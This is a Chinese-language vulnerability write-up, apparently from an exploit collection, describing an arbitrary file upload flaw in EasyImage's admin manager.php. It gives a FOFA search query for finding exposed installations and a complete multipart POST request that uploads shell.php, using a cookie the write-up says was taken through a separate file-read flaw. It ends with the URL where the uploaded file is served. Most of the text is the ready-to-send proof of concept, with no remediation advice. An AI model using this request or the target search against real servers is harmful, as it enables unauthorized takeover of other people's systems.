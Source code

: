# EasyImage manager.php 后台任意文件上传漏洞

## 漏洞描述

EasyImage manager.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件到服务器获取服务器权限

## 漏洞影响

```
EasyImage
```

## FOFA

```
app="EasyImage-简单图床"
```

## 漏洞复现

主页面

![image-20230417094210473](images/image-20230417094210473.png)

登陆后台后发送POC (通过任意文件读取获取账号密码)

```
POST /admin/manager.php?p= HTTP/1.1
Host: 
Accept: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: no-cache
Content-Length: 1622
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEUCF9Yq83AkaO6sv
Cookie: Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680341989; auth=a%3A2%3A%7Bi%3A0%3Bs%3A7%3A%22tossone%22%3Bi%3A1%3Bs%3A32%3A%22590368bca375c2f8fe93df7d253481e8%22%3B%7D; Hm_lpvt_c790ac2bdc2f385757ecd0183206108d=1680342144; filemanager=sdeemhj3b9aeoretftrlijjh25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36

------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzuuid"

7e4fad9a-3545-4ed6-b655-b3e3a6b2978c
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkindex"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalfilesize"

583
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunksize"

10000000
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalchunkcount"

1
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkbyteoffset"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="p"


------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="fullpath"

shell.php
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

234

------WebKitFormBoundaryEUCF9Yq83AkaO6sv--
```

![image-20230417094255974](images/image-20230417094255974.png)

上传访问地址为

```
/i/shell.php
```